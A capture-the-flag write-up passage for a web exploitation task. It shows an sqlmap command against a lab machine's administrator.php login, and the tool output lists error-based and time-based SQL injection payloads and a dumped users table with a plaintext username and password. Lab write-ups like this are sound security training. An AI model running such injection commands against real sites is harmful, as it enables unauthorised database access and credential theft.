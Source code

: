 1) What is the name of the important file on the server?

     **administrator.php**
     
**Task 4 (Web Exploitation)**

- **sqlmap**
       
       kali@kali:~$ sqlmap -v -u 
       http://10.10.85.135/administrator.php  --data 'username=&password=' -users -T --dump
             ___
            __H__                                                                               
      ___ ___[.]_____ ___ ___  {1.4.10#stable}                                                           
      |_ -| . [)]     | .'| . |                                                                            
      |___|_  [,]_|_|_|__,|  _|                                                                                  
            |_|V...       |_|   http://sqlmap.org  
      [!] legal disclaimer: Usage of sqlmap for attacking targets  without prior mutual consent is          
      illegal. It is the end user's responsibility to obey all applicable local, state and federal          
      laws. Developers assume no liability and are not responsible for any misuse or damage caused by      
      this program
     
      [*] starting @ 02:21:31 /2020-11-07/
     
      [02:21:32] [WARNING] provided value for parameter 'username' is empty. Please, always use only       
      valid parameter values so sqlmap could be able to run properly
      [02:21:32] [WARNING] provided value for parameter 'password' is empty. Please, always use only        
      valid parameter values so sqlmap could be able to run properly
      [02:21:32] [INFO] resuming back-end DBMS 'mysql' 
      [02:21:32] [INFO] testing connection to the target URL
      sqlmap resumed the following injection point(s) from stored session:
      ---
      Parameter: username (POST)
      Type: error-based
      Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
      Payload: username=' AND GTID_SUBSET(CONCAT(0x716b6b6a71,(SELECT                            
      (ELT(3138=3138,1))),0x7170707a71),3138)-- LQrA&password=

      Type: time-based blind
      Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
      Payload: username=' AND (SELECT 9447 FROM (SELECT(SLEEP(5)))Kdxo)-- zzqO&password=
      ---
      [02:21:32] [INFO] the back-end DBMS is MySQL
      back-end DBMS: MySQL >= 5.6
      [02:21:32] [INFO] fetching columns for table 'users' in database 'users'
      [02:21:34] [INFO] retrieved: 'username'
      [02:21:35] [INFO] retrieved: 'varchar(100)'
      [02:21:35] [INFO] retrieved: 'password'
      [02:21:35] [INFO] retrieved: 'varchar(100)'
      [02:21:35] [INFO] fetching entries for table 'users' in database 'users'
      [02:21:35] [INFO] retrieved: 'secretpass'
      [02:21:36] [INFO] retrieved: 'pingudad'
      Database: users
      Table: users
      [1 entry]
      +------------+----------+
      | password   | username |
      +------------+----------+
      | secretpass | pingudad |
      +------------+----------+
      [02:21:36] [INFO] table 'users.users' dumped to CSV file '/home/kali/.loc
      [02:21:36] [INFO] fetched data logged to text files under '/home/kali/.lo
